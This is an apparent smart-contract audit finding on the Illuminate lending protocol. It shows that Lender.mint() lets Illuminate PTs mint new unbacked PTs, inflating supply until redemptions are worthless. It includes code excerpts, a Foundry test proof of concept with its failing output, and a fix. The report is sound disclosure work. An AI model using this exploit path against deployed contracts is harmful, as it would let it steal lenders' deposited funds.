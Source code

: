 IllIllI

high

# Illuminate PTs can be used to mint other Illuminate PTs

## Summary

Attackers can inflate away all PT value by unlimited minting


## Vulnerability Detail

`Lender.mint()` allows anyone to exchange any supported PT for an Illuminate PT, and Illuminate PTs themselves are supported PTs by the function. By minting Illuminate PTs by providing other Illuminate PTs, an attacker can increase the total supply of Illuminate PTs without the new tokens having any asset backing. Redemptions are based on shares of the total Illuminate PT supply, rather than being redemptions of one underlying for one Illuminate PT, so as the total supply grows, the value of each share decreases.


## Impact

_Permanent freezing of funds_

An attacker is able to inflate away the value of Illuminate PTs, making redemptions worthless, which means lenders of the protocol lose all deposited principal. Since the objective of the project is to convert other projects' PTs into Illuminate PTs, PTs of all underlyings and all maturities are affected, meaning 100% of deposited/lent principal are at risk.

While the Illuminate project does have an emergency `withdraw()` function that would allow an admin to rescue the funds and manually distribute them if they're still in the `Lender` contract, an attacker can wait for `Redeemer.redeem()` to have been called, at which point all PTs of the maturity and underlying would be in the `Redeemer` contract, which has no such rescue function. Once the attack became known, it could be prevented by calling `Lender.pause(u, m, 0, true)` for every underlying/maturity combination. Each new maturity would also need a separate call to `pause()`.


## Code Snippet

The `mint()` function takes in any value for `p`, including `Principals.Illuminate` (`0`), and mints new Illuminate tokens back to `msg.sender`
```solidity
// File: src/Lender.sol : Lender.mint()   #1

270        function mint(
271            uint8 p,
272            address u,
273            uint256 m,
274            uint256 a
275        ) external unpaused(u, m, p) returns (bool) {
276            // Fetch the desired principal token
277 @>         address principal = IMarketPlace(marketPlace).token(u, m, p);
278    
279            // Transfer the users principal tokens to the lender contract
280            Safe.transferFrom(IERC20(principal), msg.sender, address(this), a);
281    
282            // Mint the tokens received from the user
283 @>         IERC5095(principalToken(u, m)).authMint(msg.sender, a);
284    
285            emit Mint(p, u, m, a);
286    
287:           return true;
```
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270-L287


The `IMarketPlace.token()` call does not exclude Illuminate PTs...:
```solidity
// File: src/MarketPlace.sol : MarketPlace.token()   #2

605        function token(
606            address u,
607            uint256 m,
608            uint256 p
609        ) external view returns (address) {
610 @>         return markets[u][m][p];
611:       }
```
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/MarketPlace.sol#L605-L611


...and `principalToken()` always returns the Illuminate PT:
```solidity
// File: src/Lender.sol : Lender.principalToken()   #3

1051        function principalToken(address u, uint256 m) internal returns (address) {
1052 @>         return IMarketPlace(marketPlace).token(u, m, 0);
1053:       }
```
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L1051-L1053


Redemptions of Illuminate PTs for underlyings is based on shares of each Illuminate PT's `totalSupply()` of the _available_ underlying, not the expected underlying total:
```solidity
// File: src/Redeemer.sol : Redeemer.redeem()   #4

418            // Get the amount of tokens to be redeemed from the sender
419            uint256 amount = token.balanceOf(msg.sender);
420    
421            // Calculate how many tokens the user should receive
422 @>         uint256 redeemed = (amount * holdings[u][m]) / token.totalSupply();
423    
424            // Update holdings of underlying
425            holdings[u][m] = holdings[u][m] - redeemed;
426    
427            // Burn the user's principal tokens
428            token.authBurn(msg.sender, amount);
429    
430            // Transfer the original underlying token back to the user
431            Safe.transfer(IERC20(u), msg.sender, redeemed);
432:   
```
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L418-L432

and:
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L464

and:
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L517


## POC

```diff
diff --git a/test/fork/Lender.t.sol b/test/fork/Lender.t.sol
index 999aa2c..6b97001 100644
--- a/test/fork/Lender.t.sol
+++ b/test/fork/Lender.t.sol
@@ -90,7 +90,7 @@ contract LenderTest is Test {
         // Approve lender to spend the underlying
         IERC20(u).approve(address(l), 2**256 - 1);
     }
-
+/**
     function testYieldLend() public {
         // Set up the market
         deployMarket(Contracts.USDC);
@@ -452,7 +452,7 @@ contract LenderTest is Test {
             0
         );
     }
-
+/**/
     function testMint() public {
         vm.startPrank(msg.sender);
         IERC20(Contracts.ELEMENT_TOKEN).approve(address(l), startingBalance);
@@ -468,11 +468,19 @@ contract LenderTest is Test {
         l.mint(uint8(3), Contracts.USDC, maturity, startingBalance);
 
         address ipt = mp.markets(Contracts.USDC, maturity, 0);
+        IERC20(ipt).approve(address(l), type(uint256).max);
+        l.mint(uint8(0), Contracts.USDC, maturity, 100);
         assertEq(startingBalance, IERC20(ipt).balanceOf(msg.sender));
         assertEq(0, IERC20(Contracts.ELEMENT_TOKEN).balanceOf(msg.sender));
         assertEq(
             startingBalance,
             IERC20(Contracts.ELEMENT_TOKEN).balanceOf(address(l))
         );
+        // since the user's IPT balance is still `startingBalance`
+        // after minting using 100 IPTs, the lender shouldn't have
+        // any IPT balance in order to not have inflation
+        assertEq(IERC20(ipt).balanceOf(address(l)), 0,
+                "There must be no lender IPT balance in order "
+                "to not have inflation");
     }
 }
```

```shell
$ forge test --fork-url $RPC_URL --fork-block-number 15189976 --use solc:0.8.16 --via-ir --match-test testMint --match-contract Lender -vv
[⠃] Compiling...
No files changed, compilation skipped

Running 1 test for test/fork/Lender.t.sol:LenderTest
[FAIL. Reason: Assertion failed.] testMint() (gas: 2696409)
Logs:
  Error: There must be no lender IPT balance in order to not have inflation
  Error: a == b not satisfied [uint]
    Expected: 0
      Actual: 100

Test result: FAILED. 0 passed; 1 failed; finished in 1.64s

Failing tests:
Encountered 1 failing test in test/fork/Lender.t.sol:LenderTest
[FAIL. Reason: Assertion failed.] testMint() (gas: 2696409)

Encountered a total of 1 failing tests, 0 tests succeeded
```

## Tool used

Manual Review


## Recommendation

Do not allow Illuminate PTs to be used to mint new Illuminate PTs, by making the following change:
```diff
diff --git a/src/Lender.sol b/src/Lender.sol
index b4a0fa2..24a596a 100644
--- a/src/Lender.sol
+++ b/src/Lender.sol
@@ -273,6 +273,11 @@ contract Lender {
         uint256 m,
         uint256 a
     ) external unpaused(u, m, p) returns (bool) {
+        // Check that the principal is NOT Illuminate
+        if (p == uint8(MarketPlace.Principals.Illuminate)) {
+            revert Exception(6, 0, 0, address(0), address(0));
+        }
+
         // Fetch the desired principal token
         address principal = IMarketPlace(marketPlace).token(u, m, p);
 
```

Alternatively, have the `Lender` burn the original PT if it's an Illuminate PT, before minting the new one



